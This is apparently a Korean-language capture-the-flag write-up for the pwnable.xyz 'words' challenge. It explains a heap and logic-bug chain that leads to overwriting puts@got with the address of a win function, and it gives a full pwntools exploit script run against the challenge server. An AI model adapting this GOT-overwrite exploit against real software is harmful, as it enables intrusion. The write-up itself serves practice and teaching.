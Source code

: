 ```yaml
---
title: "[pwnable.xyz]words"
date: 2020-2-29
ctf: Pwnable.xyz
layout: post
published : false
---
```


익스 순서는 5번메뉴로 malloc(-1)로 리턴 0으로 우회해서 buf에 reverse 포인터를 박아놓는다. 그리고 3번 메뉴 로직버그 이용해서 계속 문자열을 붙여서 써준다. 그러면 256바이트만큼 채우면 마지막에 널바이트가 붙어서 buf에 넣은 reverse가 0x610e00이 되서 또 5번 메뉴를 사용해서 buf포인터인 0x610e00에 값을 채울 수 있는데 puts@got로 덮고 또 5번메뉴로 덮어주면 된다.

> Exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30036)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
a = 0x0000000000610DA0
buf = 0x0000000000610EA0
reverse = 0x0000000000610EC0

def handles(a,b):
	sa('>','3')
	sa('>',str(a))
	sa('>',str(b))

sa('>','5')
sa(':','-1')
p.send('BBBBBBBBBB')

# handles(1,0) # 24
# handles(2,0) # 36
# handles(3,0) # 41
# handles(4,0) # 43
# handles(5,0) # 35

handles(4,0)
handles(4,0)
handles(4,0)
handles(4,0)
handles(4,0)
handles(3,0)

sa('>','5')
p.send('A'*160+p64(e.got['puts']))

sa('>','5')
p.send(p64(e.symbols['win']))

sa('>','777')

p.interactive()
```

